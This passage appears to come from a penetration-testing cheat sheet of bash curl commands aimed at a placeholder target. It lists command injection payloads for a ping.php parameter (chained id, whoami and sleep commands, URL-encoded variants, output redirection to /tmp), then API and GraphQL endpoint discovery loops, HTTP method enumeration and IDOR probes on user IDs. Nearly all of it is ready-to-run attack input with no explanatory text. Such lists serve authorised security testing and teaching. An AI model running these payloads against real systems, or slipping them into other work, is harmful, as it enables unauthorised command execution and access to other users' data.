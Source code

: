 ### Command Injection Mastery
```bash
# Basic command injection payloads
curl "http://<target>/ping.php?ip=127.0.0.1;id"
curl "http://<target>/ping.php?ip=127.0.0.1|id"
curl "http://<target>/ping.php?ip=127.0.0.1&&id"
curl "http://<target>/ping.php?ip=127.0.0.1\`id\`"
curl "http://<target>/ping.php?ip=127.0.0.1\$(id)"

# URL encoded payloads
curl "http://<target>/ping.php?ip=127.0.0.1%3Bid"
curl "http://<target>/ping.php?ip=127.0.0.1%7Cid"

# Time-based blind command injection
curl "http://<target>/ping.php?ip=127.0.0.1;sleep 10"
curl "http://<target>/ping.php?ip=127.0.0.1|sleep 10"

# Output redirection for blind injection
curl "http://<target>/ping.php?ip=127.0.0.1;whoami > /tmp/output.txt"
curl "http://<target>/ping.php?ip=127.0.0.1;cat /tmp/output.txt"
```

## API Security Testing

### API Discovery Techniques
```bash
# Common API paths discovery
for path in api v1 v2 v3 api/v1 api/v2 api/v3 rest graphql; do
  echo "Testing /$path:"
  curl -s http://<target>/$path/ | head -5
done

# API documentation discovery
for doc in api-docs swagger.json openapi.json docs api/docs redoc; do
  curl -s http://<target>/$doc | head -10
done

# GraphQL introspection
curl -X POST http://<target>/graphql \
     -H "Content-Type: application/json" \
     -d '{"query":"{__schema{types{name}}}"}'

# GraphQL endpoint discovery
for endpoint in graphql api/graphql v1/graphql; do
  curl -X POST http://<target>/$endpoint \
       -H "Content-Type: application/json" \
       -d '{"query":"{ __typename }"}'
done
```

### REST API Testing
```bash
# Test all HTTP methods on API endpoints
for method in GET POST PUT DELETE PATCH OPTIONS; do
  echo "Testing $method on /api/users:"
  curl -X $method http://<target>/api/users -v
done

# IDOR testing
curl http://<target>/api/users/1
curl http://<target>/api/users/2  
curl http://<target>/api/users/100

```